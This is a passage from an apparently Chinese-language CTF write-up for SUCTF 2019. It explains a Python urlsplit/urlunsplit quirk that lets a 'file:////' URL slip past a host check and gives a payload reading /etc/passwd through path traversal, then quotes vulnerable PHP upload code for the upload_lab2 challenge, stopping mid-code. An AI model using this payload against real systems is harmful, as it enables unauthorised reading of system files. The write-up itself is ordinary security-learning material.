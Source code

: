 这里就是将`urlspilt()`的结果重新拼接，但是问题在：

```python
url = '//' + (netloc or '') + url
```

如果我们给的netloc是空的，那么最后重新拼接的结果就不一样了,比如

```python
from urllib.parse import urlsplit,urlunsplit,unquote
from urllib import parse

url = "file:////flag.php"
parts = parse.urlsplit(url)
print(parts)

url2 = urlunsplit(parts)
parts2 = parse.urlsplit(url2)
print(parts2)
```

结果如下：

```python
SplitResult(scheme='file', netloc='', path='//flag.php', query='', fragment='')
SplitResult(scheme='file', netloc='flag.php', path='', query='', fragment='')
file://flag.php
```

成功绕过题目中的限制。

payload:

```python
file:////suctf.cc/../../../etc/passwd
```









# upload_lab2

这道题它给了源码，这道题按作者的思路来，这里的考点还蛮有意思的.

[SUCTF 2019 出题笔记 & phar 反序列化的一些拓展](https://xz.aliyun.com/t/6057#toc-6)

```php
#index.php
<?php
include 'class.php';

$userdir = "upload/" . md5($_SERVER["REMOTE_ADDR"]);
if (!file_exists($userdir)) {
    mkdir($userdir, 0777, true);
}
if (isset($_POST["upload"])) {
    // 允许上传的图片后缀
    $allowedExts = array("gif", "jpeg", "jpg", "png");
    $tmp_name = $_FILES["file"]["tmp_name"];
    $file_name = $_FILES["file"]["name"];
    $temp = explode(".", $file_name);
    $extension = end($temp);
    if ((($_FILES["file"]["type"] == "image/gif")
            || ($_FILES["file"]["type"] == "image/jpeg")
            || ($_FILES["file"]["type"] == "image/png"))
        && ($_FILES["file"]["size"] < 204800)   // 小于 200 kb
        && in_array($extension, $allowedExts)
    ) {
```